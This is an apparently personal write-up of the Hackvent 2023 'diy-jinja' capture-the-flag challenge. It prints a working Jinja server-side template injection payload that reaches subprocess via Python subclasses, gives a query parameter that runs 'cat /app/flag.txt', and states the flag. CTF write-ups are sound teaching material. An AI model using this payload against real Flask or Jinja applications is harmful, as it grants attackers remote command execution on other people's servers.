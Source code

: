 # [HV23.10] diy-jinja

## Introduction

Difficulty: Medium<br>
Author: coderion

We've heard you like to create your own forms. With SANTA (Secure and New Template Automation), you can upload your own jinja templates and have the convenience of HTML input fields to have your friends fill them out! Obviously 100% secure and even with anti-tampering protection!

## Solution

This one I solved differently from my current solution during Hackvent, but well, it also got nuked during my git-typo and I couldn't replicate my payload afterwards.

The server is  giving us the option to upload our own jinja template files, but only lowercase characters are allowed between the `{{}}` of jinja. So I looked in different places and noticed that our user input for form field names and description is reflected on the form submission page, the only restriction being that we can't use `"` or `'` in our payload, we can still get RCE by using the following payload.

```py
{{a.__class__.__base__.__subclasses__()[452](request.args.cmd, shell=True, stdout=-1).communicate()[0].strip()}}
```

Now we just have to go to our newly created form at `/form/7656fa0b-4765-48df-9d8e-b8cab60f023a` and add `?cmd=cat /app/flag.txt` to it to get the flag.

![flag](flag.png)

Flag: `HV23{us3r_suppl13d_j1nj4_1s_4lw4ys_4_g00d_1d34}`
